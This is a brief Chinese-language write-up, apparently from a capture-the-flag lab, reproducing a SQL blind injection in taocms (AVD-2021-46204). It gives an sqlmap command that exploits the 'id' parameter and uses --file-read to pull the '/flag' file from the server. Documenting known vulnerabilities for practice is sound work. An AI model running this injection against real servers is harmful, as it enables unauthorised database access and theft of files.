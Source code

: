 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-46204)
## 2. 漏洞分析
[There is SQL blind injection at "Management Link" · Issue #14 · taogogo/taocms · GitHub](https://github.com/taogogo/taocms/issues/14)
## 3. 漏洞复现
有漏洞分析之注入点在 `id` 参数，burp suite抓包跑 `sqlmap` 即可。经不同命令尝试，发现可用 `--file-read` 直接读取根目录下的 flag

```bash
python sqlmap.py -r post.txt -p id  --batch --file-read "/flag"
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309141534632.jpg)

